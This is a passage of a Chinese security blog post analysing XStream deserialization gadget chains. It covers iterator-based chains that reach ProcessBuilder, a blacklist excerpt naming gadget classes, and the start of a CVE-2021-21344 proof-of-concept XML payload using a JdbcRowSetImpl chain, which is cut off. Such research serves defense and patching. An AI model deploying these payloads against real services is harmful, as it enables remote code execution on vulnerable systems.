 ```java
        if (next == null) {
            throw new NoSuchElementException();
        }
        T o = next;
        advance();
        return o;
    }
```

1.  官网的java.util.ArrayListItr实现用的是java.util.ArrayListItr  
    其中需要注意ArrayList.this，当ArrayList add/grow，都会更新ArrayList.elementData，所以iter.next()成功取到ProcessBuilder实例。  
    ![](https://m0d9.me/images/pasted-138.png)
    
2.  Wh1t3p1g师傅的java.util.CollectionsEmptyIterator实现用的是java.util.CollectionsEmptyIterator，这里注意嵌套了两层
    
    ```java
    Iterator it = makeFilterIterator(
                    makeFilterIterator(Collections.emptyIterator(), obj, null),
                    "foo",
                    filter
            );
    ```
    
    这里的控制elt的思路如下：
    
    *   step1:利用的是EmptyIterator hasNext() 为false，构造了第一层FilterIterator iter1，使得iter1.next() = iter1.next
    *   step2:再构造一层 FilterIterator iter2，iter2.iter=iter1,使得iter2.next() = iter2.iter1.next() = iter2.iter1.next

![](https://m0d9.me/images/pasted-139.png)

### [](#黑名单： "黑名单：")黑名单：

```java
javax.imageio.ImageIO$ContainsFilter
denyTypeHierarchyDynamically("javax.activation.DataSource");
```

[](#CVE-2021-21344 "CVE-2021-21344")CVE-2021-21344
--------------------------------------------------

author: 钟师傅

### [](#POC "POC")POC

```xml
<java.util.PriorityQueue serialization='custom'>
  <unserializable-parents/>
  <java.util.PriorityQueue>
    <default>
      <size>2</size>
      <comparator class='sun.awt.datatransfer.DataTransferer$IndexOrderComparator'>
        <indexMap class='com.sun.xml.internal.ws.client.ResponseContext'>
          <packet>
            <message class='com.sun.xml.internal.ws.encoding.xml.XMLMessage$XMLMultiPart'>
              <dataSource class='com.sun.xml.internal.ws.message.JAXBAttachment'>
                <bridge class='com.sun.xml.internal.ws.db.glassfish.BridgeWrapper'>
                  <bridge class='com.sun.xml.internal.bind.v2.runtime.BridgeImpl'>
                    <bi class='com.sun.xml.internal.bind.v2.runtime.ClassBeanInfoImpl'>
                      <jaxbType>com.sun.rowset.JdbcRowSetImpl</jaxbType>
                      <uriProperties/>
                      <attributeProperties/>
                      <inheritedAttWildcard class='com.sun.xml.internal.bind.v2.runtime.reflect.Accessor$GetterSetterReflection'>
                        <getter>
```